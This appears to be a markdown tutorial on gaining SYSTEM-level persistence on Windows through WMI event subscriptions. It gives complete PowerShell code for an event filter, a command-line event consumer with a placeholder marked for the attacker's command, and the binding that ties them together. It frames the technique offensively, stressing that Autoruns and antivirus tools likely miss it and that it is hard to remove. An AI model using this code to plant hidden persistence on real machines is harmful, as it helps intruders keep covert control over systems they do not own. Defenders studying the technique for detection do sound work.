 ### WMI Event Persistence via Powershell
WMI Event persistence explained, you can find a bloated version in powersploit.
Three parts to this: 
* WMI Event Filter
* Event Consumer
* Filter/Consumer Binding
This technique gets you *SYSTEM* level persistence, requires admin rights to execute.
Autoruns doesn't even check for this yet. (doubt any AVs are either)
Difficult to detect, Difficult to remove if you dont know what youre doing.
#### WMI Event Filter
Create an event that checks every 60 seconds for a change in Win32_PerfFormattedData_PerfOS_System. (this is always changing)

```    
    $EventFilter = ([WMICLASS]"\\.\root\subscription:__EventFilter").CreateInstance() 
    $EventFilter.QueryLanguage  = "WQL" 
    $EventFilter.Query          = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325" 
    $EVentFilter.EventNamespace = "root\cimv2" 
    $EventFilter.Name           = "OBVIOUSHACKER" 
    $Result = $EventFilter.Put() 
    $Filter = $Result.Path
```

http://msdn.microsoft.com/en-us/library/aa394639(v=vs.85).aspx

#### Event Consumer
Configure what to execute once the event occurs.
Current example is just a ping.

```
    $InstanceConsumer = ([wmiclass]"\\.\root\subscription:CommandLineEventConsumer").CreateInstance() 
    $InstanceConsumer.Name = "OBVIOUSHACKER" 
    $InstanceConsumer.CommandLineTemplate = "ping 127.0.0.1 -n 100"          #CMD TO EXECUTE HERE
    $InstanceConsumer.WorkingDirectory = "C:\\windows\\system32"
    $Result = $InstanceConsumer.Put() 
    $Consumer = $Result.Path
```

http://msdn.microsoft.com/en-us/library/aa389231(v=vs.85).aspx
http://msdn.microsoft.com/en-us/library/aa393649(v=vs.85).aspx

#### Filter/Consumer Binding
This is the object that correlates the Filter with the Consumer.
Runs as system as a child of WmiPrvSE.exe under the svchost.exe running Dcom service.

```
    $InstanceBinding = ([wmiclass]"\\.\root\subscription:__FilterToConsumerBinding").CreateInstance() 
    $InstanceBinding.Filter   = $Filter
    $InstanceBinding.Consumer = $Consumer
    $Result = $InstanceBinding.Put() 
```
